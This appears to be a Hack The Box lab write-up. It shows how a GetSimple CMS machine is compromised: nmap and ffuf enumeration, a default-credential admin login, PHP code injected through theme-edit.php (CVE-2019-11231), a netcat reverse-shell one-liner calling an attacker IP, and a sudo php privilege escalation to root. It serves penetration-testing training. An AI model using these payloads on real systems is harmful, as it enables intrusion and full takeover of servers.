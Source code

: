 ```yaml
---
description: Knowledge Check write-up.
---
```


# Knowledge Check

The _Getting Started_ module represents a taste of what's coming on later in the next modules.\
Since we'll go in depth or each technique like transferring files, privilege escalation and more, we'll go through the Knowledge Check part directly.

{% hint style="info" %}
This is just a taste of the HTB labs and machines. The machine is straight forward with the most basic exposed vulnerabilities:

1. A disallowed entry on robots.txt.
2. An admin login portal.
3. Default creds.
4. A specific CMS version having a CVE for a file upload vulnerability.
5. sudo misconfig to be leveraged to root. &#x20;
{% endhint %}

## 0. Connecting to VPN:

I don't use the pwnbox, so i need to connect to their network using the openVPN file they provide.

```bash
└──╼ $sudo openvpn <path-to-vpn-file>
```

## 1. Enumeration & Information Gathering:

### Nmap:

```bash
└──╼ $nmap <target-ip> -Pn -T4 -sC -sV -oA nmap-def-initial-scan
```

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption><p>Initial nmap output.</p></figcaption></figure>

We already got some interesting stuff, a Linux machine hosting an Apache server with port 80 open, an accessible robots.txt file containing a disallowed entry /admin. \
So upon checking the IP on port 80 here's what we got:

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

First we'll associate this IP address to a domain name to easily access it with a domain name:

```bash
└──╼ $sudo sh -c 'echo "<target-ip> gettingstarted.htb" >> /etc/hosts'
# Another way of doing it:
└──╼ $echo "<target-ip> gettingstarted.htb" | sudo tee -a /etc/hosts
```

\
After checking what GetSimple is i run into this phrase:\


> "GetSimple CMS allows you to create a dynamic site to your image, easy updation of content            without limit by administration system."

Sounds, juicy enough for us.

\
So we'll let a full nmap scan or all ports run in the background just to make sure we didn't oversee any available portal on  a port that's not on the top 1000 ports.

```bash
└──╼ $nmap gettingstarted.htb -p- -T4 -Pn -oA full-ports-scan
```

First thing that comes to mind before jumping on that admin portal, is checking for any hidden subdirectories, subdomains, vhosts, pages ..etc because we may get too invested in that admin directory and oversee some low hanging fruit on others.

### Directory Fuzzing:

We'll use "directory-list-2.3-small.txt" from SecLists repo. We can even check the common.txt one before, it's up to you.

```bash
└──╼ $ffuf -w <path-to-wordlist>:FUZZ -u http://1gettingstarted.htb/FUZZ
```

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Intuitively after poking around the discovered directories, we visit the admin login page :

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

After using some default credentials, we successfully got a login to the admin's dashboard, pretty easy:

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

And we got the GetSimple CMS version 3.3.15 that has a public vulnerability: CVE-2019-11231, which is ,as described in [https://nvd.nist.gov/vuln/detail/CVE-2019-11231](https://nvd.nist.gov/vuln/detail/CVE-2019-11231) a file upload vulnerability in the _**theme-edit.php**_ file that might allow us to upload to the file with arbitrary code like PHP. \
If it is indeed vulnerable we can easily obtain a reverse shell!\
Let's check if it is vulnerable:\
\
Navigating to the theme-edit.php file we found a php code to which we can add this PHP line to test if it goes through:  <mark style="color:red;">**`<?php echo shell_exec('id'); ?>`**</mark>

So after saving, we check the main page in order for the server to execute our payload and it is indeed vulnerable and effectively  printed out the output of the `id` command in the bottom of the page:

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

## 2. Exploitation & Getting a foothold :

As already shown in [#id-1.-reverse-shells](shells-and-ssh/setting-up-shells.md#id-1.-reverse-shells "mention") we can now inject a reverse shell using the following PHP code:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENEING PORT> >/tmp/f"); ?>
```

Let's now set up a listener on the port already specified:

```bash
└──╼ $nc -nlvp 9999
listening on [any] 9999 ..
```

Then navigate to the http://gettingstarted/ page in order to execute the code. Meanwhile we should keep an eye on the netcat listener we sat up, and a successful connection should pop out :

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption><p>Successful Rev Shell</p></figcaption></figure>

After upgrading the Reverse shell as instructed in [#id-3.-upgrading-tty](shells-and-ssh/setting-up-shells.md#id-3.-upgrading-tty "mention")

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption><p>Getting the user flag</p></figcaption></figure>

## Privilege escalation:

Before going to enumerate using automated scripts (like linpeas.sh), let's have a look for the available sudo privileges: \
`sudo -l` command will list all the possible sudo privileges, as said in the documentation:

> -l \[l] \[_command_]\
> If no _command_ is specified, the -l (_list_) option will list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host. If a _command_ is specified and is permitted by the security policy, the fully-qualified path to the command is displayed along with any command line arguments.

<figure><img src="../.gitbook/assets/image (27).png" alt=""><figcaption><p>Showing that we can execute the /usr/bin/php<br>as a root without authentication.</p></figcaption></figure>

Going to [https://gtfobins.github.io/gtfobins/php/](https://gtfobins.github.io/gtfobins/php/), we find a bash script to exploit this vulnerability and get a shell with elevated privileges:

```bash
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
<mark style="color:blue;">Instead of defining a variable containing the '/bin/sh' string i simply put it into the function parameter. It does the same job, same result.</mark>

<mark style="color:blue;">We can still upgrade the shell of the root user as we did to the basic user but since we only need to read the flag without any complex procedures, it would be an overkill.</mark>
{% endhint %}

{% hint style="success" %}
<mark style="color:green;">We successfully got a shell as the root user we can now get user flag located in /root/root.txt.</mark>
{% endhint %}

{% hint style="warning" %}
<mark style="color:orange;">A good thing to do after pwning a machine is to stay on it and move around to find our how it is configured and what else could be done. Since it is a controlled environment, it's a chance to try out different things, payloads ..etc</mark>&#x20;

<mark style="color:orange;">AND OF COURSE NOT DOSing it.</mark>
{% endhint %}

